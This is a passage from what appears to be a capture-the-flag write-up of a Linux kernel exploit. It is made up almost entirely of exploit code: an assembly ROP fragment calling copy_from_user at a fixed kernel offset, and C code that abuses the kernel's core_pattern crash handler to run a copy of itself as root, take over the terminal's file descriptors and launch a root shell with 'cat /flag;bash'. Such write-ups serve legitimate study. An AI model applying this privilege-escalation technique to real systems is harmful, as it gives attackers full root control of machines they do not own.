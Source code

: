 ```asm
add rax, 0x8e0990 ; copy_from_user
call rax

mov rax, 0x7fff0000
pop r13
pop rbx
leave
ret
```

## 5. Get Shell w/ core_pattern
Finally, a shell can be obtained using the following code:
```cpp
void crash(char *cmd)
{
	int memfd = memfd_create("", 0);
	SYSCHK(sendfile(memfd, open("/proc/self/exe", 0), 0, 0xffffffff));
	dup2(memfd, 666);
	close(memfd);
	while (check_core() == 0)
		sleep(1);
	puts("Root shell !!");
	/* Trigger program crash and cause kernel to executes program from core_pattern which is our "root" binary */
	*(size_t *)0 = 0;
}

void root(char *buf)
{
	int pid = strtoull(buf, 0, 10);
	char path[0x100];
	printf("run root()\n");
	// fix stdin, stdout, stderr
	sprintf(path, "/proc/%d/ns/net", pid);
	int pfd = syscall(SYS_pidfd_open, pid, 0);
	int stdinfd = syscall(SYS_pidfd_getfd, pfd, 0, 0);
	int stdoutfd = syscall(SYS_pidfd_getfd, pfd, 1, 0);
	int stderrfd = syscall(SYS_pidfd_getfd, pfd, 2, 0);
	dup2(stdinfd, 0);
	dup2(stdoutfd, 1);
	dup2(stderrfd, 2);
	// just cat the flag
	system("cat /flag;bash");
}

int main(int argc, void *argv[])
{	

	if (argc > 1)
	{
		printf("triggered from core_pattern\n");
		root(argv[1]);
		exit(0);
	}

    [...]
}
```